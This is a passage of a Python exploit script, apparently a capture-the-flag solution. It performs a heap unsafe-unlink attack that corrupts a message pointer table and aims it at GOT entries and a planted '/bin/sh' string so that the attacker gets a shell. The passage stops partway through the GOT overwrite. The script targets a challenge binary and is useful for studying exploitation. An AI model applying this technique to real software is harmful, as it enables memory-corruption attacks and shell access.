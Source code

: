     	init_msg(128)								# init some messages
    	init_msg(128)
    	init_msg(24 )
    	init_msg(248)

    	del_msg(0)									# delete message 1 first
    												# thus message 4 is not on the top of freelist

    	set_msg(2, 'A'*16 + pack('<Q', 0xa0) +'\n') # set free list pointers
    	set_msg(1, 'A'*16 + pack('<Q', 0x6020b8) + pack('<Q', 0x6020c0) + '\n')


    	del_msg(3)									# unlink arb. write

    	# -------------------------------------------------------------------------
    	# Address of message 2 in Q table (0x6020C0) has changed to 0x6020B8
    	# -------------------------------------------------------------------------
    	print '[+] Overwriting entries in Q table...'

    	p = ''
    	p += 'A'*8 										# padding
    	p += pack('<Q', 0x602028) + pack('<Q', 0x200)	# Q[0] = .got.__stack_chk_fail()
    	p += pack('<Q', 0x602068) + pack('<Q', 0x200) 	# Q[1] = .got.atoi()
    	p += pack('<Q', 0x602018) + pack('<Q', 0x200)	# Q[2] = .got.free()
    	p += '/bin/sh\x00' + 'B'*24						# more padding (reserved)

    	p += pack('<Q', 0x6020f0) + pack('<Q', 0x200)	# Q[5] = /bin/sh
    	p += '\n'

    	set_msg(1, p)									# set 2nd message and start overwriting
    													# Q table entries


    	# -------------------------------------------------------------------------
    	# Set messages to do the arbitrary write
    	# MSB must be newline (read_raw_input_40085D, will replace it with null)
    	# -------------------------------------------------------------------------
    	print '[+] Overwriting entries in GOT table...'
